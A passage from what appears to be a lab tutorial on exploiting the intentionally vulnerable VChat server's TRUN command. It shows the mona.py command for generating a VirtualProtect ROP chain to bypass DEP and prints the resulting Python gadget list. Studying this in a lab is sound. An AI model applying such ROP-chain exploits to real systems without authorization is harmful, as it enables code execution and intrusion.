 1. **Step 1: Use mona to generate the ROP chain for virtualprotect(.)**.
   1. We can use the following command provided by [mona.py](https://github.com/corelan/mona) to generate the chain for us. The resulting chains will be located in `rop_chains.txt`; if there are missing gadgets, they could be located in `rop.txt` or `rop_suggestions.txt`. These will be located in the working directory for the mona.py program and Immunity Debugger, in my case this was in the directory `C:\Users<User>\AppData\Local\VirtualStore\Program Files (x86)\Immunity Inc\Immunity Debugger`. You can also use the command `!mona config -set workingfolder c:\logs\E10` to set the folder our output will be stored in.

   ```
   !mona rop -m *.dll -n
   ```
   * `-m *.dll`: Search through all DLL files when building ROP chains.
   * `-n`: Ignore all modules that start with a Null Byte.


    2. We can try executing this ROP chain by modifying the program to reflect the [exploit1.py](./SourceCode/exploit1.py) program. Below is the function in the `rop_chain.txt` function.

   https://github.com/DaintyJet/VChat_TRUN_ROP/assets/60448620/84a9e576-4c96-48e7-a2cd-d242f148c27d

      ```
      def create_rop_chain():
         # rop chain generated with mona.py - www.corelan.be
         rop_gadgets = [
            #[---INFO:gadgets_to_set_esi:---]
            0x7699cfcf,  # POP ESI # RETN [RPCRT4.dll] ** REBASED ** ASLR
            0x62508128,  # ptr to &VirtualProtect() [IAT essfunc.dll]
            0x77083491,  # MOV ESI,DWORD PTR DS:[ESI] # ADD AL,0 # MOV EAX,8007007F # RETN 0x18 [KERNELBASE.dll] ** REBASED ** ASLR
            #[---INFO:gadgets_to_set_ebp:---]
            0x770988dc,  # POP EBP # RETN [KERNELBASE.dll] ** REBASED ** ASLR
            0x41414141,  # Filler (RETN offset compensation)
            0x41414141,  # Filler (RETN offset compensation)
            0x41414141,  # Filler (RETN offset compensation)
            0x41414141,  # Filler (RETN offset compensation)
            0x41414141,  # Filler (RETN offset compensation)
            0x41414141,  # Filler (RETN offset compensation)
            0x625014e6,  # & jmp esp [essfunc.dll]
            #[---INFO:gadgets_to_set_ebx:---]
            0x77508b1d,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
            0xfffffdff,  # Value to negate, will become 0x00000201
            0x7692da18,  # NEG EAX # RETN [RPCRT4.dll] ** REBASED ** ASLR
            0x769a80d2,  # XCHG EAX,EBX # RETN [RPCRT4.dll] ** REBASED ** ASLR
            #[---INFO:gadgets_to_set_edx:---]
            0x7707f452,  # POP EAX # RETN [KERNELBASE.dll] ** REBASED ** ASLR
            0xffffffc0,  # Value to negate, will become 0x00000040
            0x76d39914,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR
            0x7743a4b2,  # XCHG EAX,EDX # RETN [ntdll.dll] ** REBASED ** ASLR
            #[---INFO:gadgets_to_set_ecx:---]
            0x7678816a,  # POP ECX # RETN [msvcrt.dll] ** REBASED ** ASLR
            0x765e3bf2,  # &Writable location [WS2_32.dll] ** REBASED ** ASLR
            #[---INFO:gadgets_to_set_edi:---]
            0x7747e114,  # POP EDI # RETN [ntdll.dll] ** REBASED ** ASLR
            0x765a77c7,  # RETN (ROP NOP) [WS2_32.dll] ** REBASED ** ASLR
            #[---INFO:gadgets_to_set_eax:---]
            0x77095618,  # POP EAX # RETN [KERNELBASE.dll] ** REBASED ** ASLR
            0x90909090,  # nop
            #[---INFO:pushad:---]
            0x76f8af08,  # PUSHAD # RETN [KERNELBASE.dll] ** REBASED ** ASLR
         ]
         return ''.join(struct.pack('<I', _) for _ in rop_gadgets)
      # Example Declaration